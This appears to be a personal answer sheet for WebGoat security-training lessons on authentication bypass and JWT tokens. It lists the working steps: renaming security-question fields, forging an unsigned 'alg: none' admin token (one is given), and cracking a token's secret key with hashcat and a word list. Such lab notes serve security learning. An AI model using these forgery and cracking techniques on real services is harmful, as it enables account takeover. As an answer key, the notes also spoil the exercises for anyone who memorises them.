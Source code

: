 # Authentication Bypass
### 2
	Method from the story doesn't work.
	But tempering with the names of the variables does.
	Change variable names to 'SecurityQuestionA' and 'SecurityQuestionB'.

# JWT Tokens
### 3
	Paste token to the WebWolf JWT tab and find name "user".
### 5
	Eavesdrop JWT from Tom.
	Put it to WebWolf and change:
	1. {
		"alg" : null
		}
	2. {
		"admin" : "true",
		"iat" : 1649869119, # this may be different
		"user" : "Tom"
		}

### 5
http://javadox.com/io.jsonwebtoken/jjwt/0.4/io/jsonwebtoken/JwtParser.html#parseClaimsJws-java.lang.String-
http://javadox.com/io.jsonwebtoken/jjwt/0.4/io/jsonwebtoken/JwtParser.html#parse-java.lang.String-

eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlciI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWUsImlhdCI6MTUxNjIzOTAyMn0. = 
{
  "alg" : "none",
  "typ" : "JWT"
}
{
  "admin" : true,
  "iat" : 1516239022,
  "sub" : "1234567890",
  "user" : "John Doe"
}

1. Solution 1
2. Solution 3

### 8
Looked for dictionary: https://github.com/first20hours/google-10000-english

hashcat --force -m 16500 <token> google-10000-english.txt.
while knowing secret key: https://jwt.io/.
change username to WebGoat and change expiration date.
paste secret key in the bottom, without "secret base64 encoded".
copy "encoded" field.

### 10
open page 10 while in burp's browser
go to http history
find http://localhost:8080/WebGoat/JWT/refresh/login

